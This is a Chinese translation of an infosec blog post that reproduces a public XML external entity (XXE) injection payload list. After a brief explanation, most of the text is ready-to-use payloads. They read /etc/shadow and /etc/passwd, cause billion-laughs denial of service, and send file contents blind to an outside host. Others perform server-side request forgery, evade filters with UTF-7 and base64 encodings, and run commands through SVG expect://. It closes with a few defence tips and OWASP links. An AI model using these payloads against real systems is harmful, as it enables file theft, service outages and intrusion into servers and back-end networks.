

# XML 外部实体(XXE)注入有效负载列表

> 原文：<https://infosecwriteups.com/xml-external-entity-xxe-injection-payload-list-937d33e5e116?source=collection_archive---------0----------------------->

在本节中，我们将解释什么是 XML 外部实体注入，描述一些常见的示例，解释如何发现和利用各种 XXE 注入，并总结如何防止 XXE 注入攻击。

## 什么是 XML 外部实体注入？

XML 外部实体注入(也称为 XXE)是一个 web 安全漏洞，使得攻击者能够干扰应用程序对 XML 数据的处理。它通常允许攻击者查看应用程序服务器文件系统上的文件，并与应用程序本身可以访问的任何后端或外部系统进行交互。

在某些情况下，攻击者可以升级 XXE 攻击，通过利用 XXE 漏洞执行服务器端请求伪造(SSRF)攻击来危害底层服务器或其他后端基础设施。



XXE 攻击有多种类型:

XML 外部实体(XXE)注入[有效负载](https://www.peerlyst.com/tags/payloads)

XXE:基本 XML 示例

```
<!--?xml version="1.0" ?-->
<userInfo>
 <firstName>John</firstName>
 <lastName>Doe</lastName>
</userInfo>
```

XXE:实体示例

```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>
```

XXE:文件披露

```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/shadow"> ]>
<userInfo>
 <firstName>John</firstName>
 <lastName>&ent;</lastName>
</userInfo>
```

XXE:拒绝服务示例

```
<!--?xml version="1.0" ?-->
<!DOCTYPE lolz [<!ENTITY lol "lol"><!ELEMENT lolz (#PCDATA)>
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
<tag>&lol9;</tag>
```

XXE:本地文件包含示例

```
<?xml version="1.0"?>
<!DOCTYPE foo [  
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo>
```

XXE:盲本地文件包含示例(当第一个案例没有返回任何内容时。)

```
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo (#ANY)>
<!ENTITY % xxe SYSTEM "file:///etc/passwd">
<!ENTITY blind SYSTEM "https://www.example.com/?%xxe;">]><foo>&blind;</foo>
```

XXE:访问控制旁路(加载受限资源——PHP 示例)

```
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ENTITY ac SYSTEM "php://filter/read=convert.base64-encode/resource=http://example.com/viewlog.php">]>
<foo><result>&ac;</result></foo>
```

XXE:SSRF(服务器端请求伪造)示例

```
<?xml version="1.0"?>
<!DOCTYPE foo [  
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "https://www.example.com/text.txt">]><foo>&xxe;</foo>
```

XXE:(远程攻击—通过外部 Xml 包含)示例

```
<?xml version="1.0"?>
<!DOCTYPE lolz [
<!ENTITY test SYSTEM "https://example.com/entity1.xml">]>
<lolz><lol>3..2..1...&test<lol></lolz>
```

XXE: UTF-7 示例

```
<?xml version="1.0" encoding="UTF-7"?>
+ADwAIQ-DOCTYPE foo+AFs +ADwAIQ-ELEMENT foo ANY +AD4
+ADwAIQ-ENTITY xxe SYSTEM +ACI-http://hack-r.be:1337+ACI +AD4AXQA+
+ADw-foo+AD4AJg-xxe+ADsAPA-/foo+AD4
```

XXE: Base64 编码

```
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>
```

XXE:SOAP 里面的 XXE 示例

```
<soap:Body>
  <foo>
    <![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]>
  </foo>
</soap:Body>
```

XXE:SVG 内部的 XXE

```
<svg  xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls"></image>
</svg>
```

保护您的 web 应用免受 XXE 攻击的几点建议:

*   **解析解析器**:本质上，XXE 是一种注入攻击的形式，攻击脆弱的 XML 解析器。因此，一个基本的防御措施是检查应用程序的 XML 解析库中可能被误用的 XML 特性，并禁用它们。特别是，禁用 dtd(外部实体)，如下所述。另外，检查您的 XML 处理器是否打了补丁。
*   **验证输入:**验证文件上传经过 XSD 验证，并且只允许白名单中的 URL。
*   通过代码进行测试:不要低估手工代码评审。通过 API 调用识别和测试 XXE 攻击。在 XML 解析器解析用户输入之前对其进行验证。
*   **记住基础知识**:确保网络监控工具和应用防火墙得到更新。

## 参考资料:

👉 [XML 外部实体(XXE)处理](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing)

👉 [XML 外部实体预防备忘单](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)

👉[XML 注入测试(OTG-INPVAL-008)](https://www.owasp.org/index.php/Testing_for_XML_Injection_(OTG-INPVAL-008))

—

来源:https://github.com/payloadbox/xxe-injection-payload-list

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！